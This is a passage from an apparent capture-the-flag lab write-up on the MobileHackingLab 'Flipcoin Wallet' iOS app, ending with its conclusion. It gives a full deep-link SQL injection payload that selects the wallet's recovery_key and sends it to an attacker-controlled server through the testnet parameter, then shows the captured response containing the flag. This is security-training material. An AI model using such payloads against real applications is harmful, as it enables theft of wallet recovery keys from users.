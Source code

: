 Now, we just need to adapt our payload to retrieve the flag:
```
flipcoin://0x252B2Fff0d264d946n1004E581bb0a46175DC009?amount=0.0003/**/AND/**/id=10/**/UNION/**/SELECT/**/10,(SELECT/**/recovery_key/**/FROM/**/wallet),3,4,5/**/LIMIT/**/1;--&testnet=http://192.168.0.122
```

Inside the value 2, we do another select to get the `recover_key`, and this will be displayed on your server.

```json
//Response received in webserver
{
    "jsonrpc":"2.0",
    "method":"web3_sha3",
    "params":
        [
            "FLAG{fl1p_d4_c01nz}}",
            "7da50a3fe76ad0ea1de171ec47042ce913235c3792628a779f6acc5b07bebd90"
        ],
    "id":1
}
```

### Conclusion

This lab demonstrates an SQL injection flaw within an iOS application and how using deep links without user input validation can lead to the theft of sensitive data. For a hands-on experience with these concepts, visit the [MobileHackingLab - Flipcoin Wallet](https://www.mobilehackinglab.com/course/lab-flipcoin-wallet) and embark on a journey of discovery to enhance your skills in mobile security.